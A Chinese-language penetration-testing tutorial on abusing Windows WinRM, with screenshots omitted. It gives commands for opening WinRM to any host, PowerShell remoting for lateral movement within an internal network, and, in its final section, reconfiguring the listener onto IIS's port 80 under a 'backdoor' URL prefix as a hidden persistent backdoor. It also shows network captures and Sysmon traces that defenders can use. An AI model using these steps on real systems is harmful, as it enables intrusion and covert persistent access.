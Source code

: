 ### WMIRM利用

#### 0x00 wmirm

Windows远程管理（WinRM）是[WS-Management Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol)的Microsoft实现。WS-Management协议是一种基于SOAP的防火墙友好协议，旨在用于系统查找和交换管理信息。WS-Management协议规范的目的是为企业系统提供互操作性和一致性，其对防火墙友好的协议，允许来自不同供应商的硬件和操作系统进行互操作。借助winrm.exe和powershell，管理员可以使用WS-Management协议远程执行大多数Cmd.exe命令、获取远程机器信息。在内网中，可以借助WinRM来进行横向移动或者后门驻留。从Vista开始，WimRM成为widnows默认组件。其在2008开始，作为默认服务启动，但默认不开启监听模式，因此无法接收、发送数据。`Winrm quickconfig`命令可快速使用默认设置配置WinRM

​	![](./media/1.jpg)

查看WinRM当前监听情况

​	![](./media/2.jpg)

默认监听5985端口(HTTP)，如果配置了HTTPS，则默认监听5986端口。配置HTTPS需要自签名证书，以IIS证书为例，安装IIS后，powershell查看证书位置

`ls Cert:\LocalMachine\My\`

配置

`winrm create winrm/config/Listener?Address=*+Transport=HTTPS @{Port="5986" ;Hostname="WMSvc-SHA2-WIN-98R1JPLVTE0" ;CertificateThumbprint="DFB6B1B54FBC56D6A80C42E7E8EC3DBE4A9D3F4E"}`

查看结果

![](./media/5.jpg)

查看当前配置

![](./media/3.jpg)

默认情况下，WinRM只允许域内机器连接。

![](./media/6.jpg)

只有设置 `TrustedHosts`或者设置了HTTPS之后，其他机器才可以连接到WinRM。设置信任主机

`winrm set winrm/config/client @{TrustedHosts="*"}` *表示允许任意机器连接



### 0x01 横向

本地也需设置信任主机

- **使用powershell**

![](./media/7.jpg)



执行PS代码块

```powershell
$cred=get-Credential  #创建凭据
$session1 = new-pssession -computername 172.16.233.193 -Credential $cred #创建Session，指定多台主机可同时再多台机器执行
Invoke-Command -Session $session1 -ScriptBlock {$a="hello world"}
Invoke-Command -Session $session1 -ScriptBlock {$a}  #执行脚本块
```

![](./media/9.jpg)

执行PS脚本

![](./media/10.jpg)

- **CMD**

  ![](./media/8.jpg)

分析执行过程。

wireshark抓包，可以看见使用http协议请求了/wsman

![](./media/11.jpg)

继而使用NTLM进行身份验证，然后post了带有xml序列化数据的包，/wsman接收到后反序列化xml，执行了包里携带的payload。

![](./media/12.jpg)

在sysmon记录的日志中可以看到目标机器调用了winrmhost.exe去执行了命令

![](./media/13.jpg)



#### 0x03 作为持续控制后门

在IIS监听80端口的情况下，可以通过设置WinRM监听端口为80，再设置监听URI的方式来复用80端口。以此作为隐蔽的后门。

```
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{URLPrefix="backdoor"}
```

此时，依然能访问到IIS服务

![](./media/14.jpg)

也能访问到WinRM服务并执行命令

![](./media/15.jpg)